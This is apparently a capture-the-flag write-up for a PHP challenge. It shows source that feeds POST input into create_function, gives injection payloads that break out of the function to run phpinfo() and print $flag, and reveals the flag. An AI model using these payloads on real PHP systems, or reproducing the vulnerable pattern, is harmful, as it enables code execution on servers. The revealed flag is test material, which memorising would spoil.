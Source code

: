 '''
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

$success = '
<div class="alert alert-success alert-dismissible" role="alert">
    <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
    Function declared.
</div>
';

include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $fun = create_function('$flag', $_POST['c']);
    print($success);
    //fun($flag);
    if (isset($_POST['q']) && $_POST['q'] == 'checked') {
        die();
    }
}
?>
'''

STEP 1: Bypass create_function in php
<?php
$funstring = 'return -1 * var_dump($a[""]);}phpinfo();/*"]';
$unused = create_function('',$funstring);
?>
Gives the phpinfo page   

STEP 2: return -1 * var_dump($a[""]);}echo $flag;/*"]';
OUTPUT: WEBSEC{HHVM_was_right_about_not_implementing_eval}

ALTERNATIVE: } echo $flag; {
OUTPUT: WEBSEC{HHVM_was_right_about_not_implementing_eval}


REFERENCE: https://www.exploit-db.com/exploits/32417
